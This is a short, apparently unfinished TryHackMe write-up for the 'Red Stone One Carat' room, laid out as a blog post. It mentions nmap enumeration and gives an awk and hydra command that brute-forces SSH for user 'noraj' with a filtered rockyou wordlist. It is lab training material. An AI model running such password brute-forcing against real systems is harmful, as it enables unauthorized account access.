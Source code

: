 ```yaml
---
layout: post
title: Red Stone One Carat - TryHackMe Room
---
```


Room: [Red Stone One Carat]

# Enumeration <nmap>
- Start by enumerating the box

# Port 22 open
- use "noraj" to bruteforce the box

```bash

# since the hint tells us that the password contains 'bu'
awk '/bu/' rockyou.txt > wordlist.txt

hydra -l noraj -P wordlist.txt ssh://IP -V -F -t 4

```

